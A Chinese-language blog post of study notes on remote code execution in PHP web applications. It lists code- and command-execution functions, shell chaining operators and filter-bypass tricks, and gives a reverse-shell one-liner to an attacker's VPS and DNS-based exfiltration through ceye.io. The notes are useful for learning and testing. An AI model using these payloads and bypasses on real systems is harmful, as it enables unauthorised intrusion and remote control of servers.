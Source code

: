 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      学习笔记-远程代码执行               # 标题 
subtitle:   对以前的笔记做整理的拓展
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00远程代码执行-介绍：  
**远程代码执行**又叫**RCE**，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。
可能导致远程调用的方式来攻击计算机或者控制计算机，危害风险高。攻击者提交恶意构造语句提交时，便容易导致攻击成功。  

**简单的说：**  
> 应用程序有时需要调用执行系统命令的函数，例如PHP中的system、exec、shell_exec、passthru、popen、proc_popen等函数可以执行系统命令，当这些函数中的参数可控时，就可以拼接恶意命令到正常命令中，达到攻击的目的。
一般在测试命令执行漏洞是经常使用的是一些不会危害对方系统以及涉及太多机密文件的命令，只要能够证实可以命令执行就好。     

在此类攻击中我们需要熟知linux和windows下的系统命令，和一些特性，下面简单说一下有关的命令连接符；    
windows系统    
|  ：直接执行后面的命令   
|| ：如果前面的语句执行出错，则执行后面的语句，前面的语句只能为假。   
&：如果前面的语句为假，则直接执行后面的语句。前面的语句可以为真为假。   
&&:如果前面的语句为假，则直接出错。   
linux：   
；：执行完前面的再执行后面的语句。   
|  ：直接执行后面的命令   
|| ：如果前面的语句执行出错，则执行后面的语句，前面的语句只能为假。   
&：如果前面的语句为假，则直接执行后面的语句。前面的语句可以为真为假。   
&&:如果前面的语句为假，则直接出错。   

## 常见的运用知识点！！！    
代码执行的几种常见方式：  
${}执行代码：${phpinfo()};  
eval:eval('phpinfo();');  
assert:<?php assert($_POST['a']);?> ,php7.0.29后不支持动态调用  
preg_replace：加上/e才会执行代码  
create_function():创建匿名函数来实现  
call_user_func()/call_user_func_array()：调用回调函数执行  
array_filter()：将数组中的值传入下一个参数，也就是传入callback函数。  

命令执行的几种常见方式：  
system()  
passthru()  
exec()  
shell_exec()  
`反引号  
ob_start()：打开输出缓冲，需要输出的内容都在内部缓冲区中，然后通过ob_end_fluch()输出。ob_start('system'),echo "ls",ob_end_flush()；即可完成攻击  
mail函数+LD_PRELOAD执行系统命令：首先LD_PRELOAD加载动态链接库（我们事先上传的重新定义了mail函数会调用的一个库函数的so文件），然后通过mail函数会调用标准库函数来完成命令执行。  

接下来总结一下rce中收集到的绕过姿势：  
- 空格（被过滤）：在bash下可以用以下字符代替空格：$IFS,${IFS},<,以及空参数%09这些  
- 命令分隔符：%0a，%0d，";"，&，|  
- 敏感字符绕过：  
①使用变量组合：$a=l;$b=s;$a$b   
②利用bash编码：转化为base64等  
③使用未定义的初始化变量放置在敏感词后面  
④使用连接符单引号  
⑤利用1>sh/1>ell.php这样的方式创建文件，然后利用ls -t>a,把内容存进a中再利用`sh a`这样的命令来执行，通常运用在有长度限制的过滤中使用  
⑥如果使用到网络地址，可以将网络地址转化为数字地址进行ip过滤  
⑦通配符？绕过，?a?在linux中可使用cat。  

对于无回显的命令执行，我们怎么才能知道呢？：  
①一句话反弹shell到自己的vps：|bash -i >& /dev/tcp/xxxxxI(你的vps的公网ip)/8080 0>&1  
②利用ceye平台，使用curl访问的时候会记录在平台上面或者注册ceye.io后我们会有一个三级域名，ping `命令`.我们的域名，就可以在ceye平台上看到解析日志和命令回显。  

